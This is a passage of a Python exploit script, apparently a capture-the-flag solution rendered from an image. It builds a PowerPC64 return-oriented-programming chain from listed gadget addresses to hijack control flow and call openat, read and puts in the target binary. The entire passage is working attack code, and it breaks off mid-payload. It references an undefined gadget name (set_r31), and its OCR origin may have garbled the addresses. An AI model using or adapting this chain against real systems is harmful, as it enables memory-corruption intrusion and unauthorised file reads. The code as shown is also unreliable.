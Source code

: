 ```python
call_r12 = 0x0000000010022134  # ld r12, 0x18(r31) ; mtctr r12 ; bctrl ; ld r2, 0x18(r1) ; addi r1, r1, 0x40 ; ld r0, 0x10(r1) ; ld r31, -8(r1) ; mtlr r0 ; blr
set_r3 = 0x00000000100379E0  #  addi r1, r1, 0x40; mr r3, r31 ; ld r0, 0x10(r1) ; ld r31, -8(r1) ; mtlr r0 ; blr
move_little_stack = 0x0000000010057C50  # addi r1, r1, 0x20 ; ld r0, 0x10(r1) ; mtlr r0 ; blr
move_medium_stack = 0x00000000100BB778  # addi r1, r1, 0x40 ; mr r3, r31 ; ld r30, -0x10(r1) ; ld r31, -8(r1) ; mtlr r0 ; blr
move_medium_stack_2 = 0x00000000100A9210  # addi r1, r1, 0x50 ; mr r3, r9 ; ld r0, 0x10(r1) ; mtlr r0 ; blr
call_r12_li_r5 = 0x0000000010023124  # ld r12, 0x48(r31) ; li r5, 0 ; mtctr r12 ; bctrl ; ld r2, 0x18(r1) ; addi r1, r1, 0x50 ; ld r0, 0x10(r1) ; ld r31, -8(r1) ; mtlr r0 ; blr
ld_r4 = 0x00000000100B2F38  # nop, ld r4, 0x1588(r2) ; std r0, 0x30(r1) ; bl 0x10039200 ; nop ; ld r0, 0x30(r1) ; mtlr r0 ; addi r1, r1, 0x20 ; blr
mr_r3_r4 = 0x0000000010032438  # mr r3, r4 ; blr
ld_some_registers = 0x000000001007363C  # ld r1, 0(r1) ; ld r0, 0x10(r1) ; ld r26, -0x30(r1) ; ld r27, -0x28(r1) ; ld r28, -0x20(r1) ; ld r29, -0x18(r1) ; ld r30, -0x10(r1) ; ld r31, -8(r1) ; mtlr r0 ; blr
or_r5_r4 = 0x00000000100B14F8  # or r5, r5, r4 ; rldicl r8, r5, 1, 0xf ; rotldi r8, r8, 0x3f ; or r8, r8, r9 ; rldimi r8, r10, 0x3f, 0 ; mr r7, r8 ; mtvsrdd v2, r7, r6 ; blr

openat = 0x10081070
puts = 0x10019D70
read_fn = 0x10037990

###################################################################################

pt_0 = flat(
    cyclic(8),
    p64(planet(0x1) + 2 + 0x70),  # new link register
    p64(0x0),
    p64(ld_some_registers),
).ljust(32)


pt1 = flat(
    p16(0x0),
    p64(0x0) * 16,
    p64(set_r31),
    p64(ld_r4),
    p64(0x0) * 3,
    p64(planet(1) + 2 + 0x40),  # r31 => &ld_r4
    p64(0x0) * 2,
    p64(call_r12_li_r5),
    p64(0x0),
    p64(rover(14)),
).ljust(0x100, p8(0x0))


pt2 = flat(
    p16(0x0),
    p64(set_r31),
    p64(openat),
    p64(0x0) * 3,
    p64(rover(1) + 2 - 0x10),  # r31 => &openat
    p64(0x0) * 2,
    p64(call_r12),
    p64(0x0) * 7,
    p64(move_little_stack),
    p64(0x0) * 3,
    p64(set_r31),
    p64(0x0) * 4,
    p64(rover(1) + 2 + 0xD8),  # r31 => &move_little_stack
    p64(0x0) * 2,
```